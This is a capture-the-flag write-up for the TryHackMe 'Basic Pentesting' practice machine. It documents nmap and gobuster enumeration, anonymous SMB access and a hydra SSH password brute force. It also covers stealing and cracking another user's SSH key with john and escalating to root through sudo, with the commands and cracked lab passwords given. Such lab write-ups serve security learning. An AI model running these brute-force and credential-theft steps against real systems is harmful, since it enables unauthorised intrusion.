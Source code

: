 <img src="../images/THMlogo.png" alt="tryhackme" width="200"/>

# Basic Pentesting

## tryhackme

### nmap

```
Port 22 SSH
Port 80 HTTP
Port 139 Samba
Port 445 Samba
Port 8009 AJP
Port 8080 HTTP Apache Tomcat 9.0.7
```
### gobuster
Initial page under construction. Enumerate main page and find:
```
/development
```
Continue directory serach but nothing else shows.

Two files exisit:

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
### smbmap

```
smbmap -H <IP>
```
Provides Anonymous account

```
smbclient //<IP>anonymous
```
Provides staff.txt letter confirming two usernames - Jay and Kay

### hydra

```
hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>
```
Provides Jan's password *armando*

### ssh

Logging into Jan's account does not show anything and also no ability to sudo.

Investigate /home directory and we find Kay:
```
pass.bak
.ssh
```
Copy id_rsa from .ssh file and save on attacker computer.

### john the ripper

Hash the key with the following command:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
Now use John to crack the hash. This only provides the passphrase for the public key.
```
/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash
```
We find *beeswax* is the passphrase.

## enumeration
Now login from Jan on the target host using:
```
ssh -i /home/kay/.ssh/id_rsa kay@<IP>
```
We now have Kay's account. Remember the pass.bak. Cat this:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
Now see what we can do with sudo -l:

```
User kay may run the following commands on basic2:
  (ALL : ALL) ALL
```
So we have full control, just switch to root and after looking in the /root folder we have a congratulations flag.

![](/images/Karti.png)
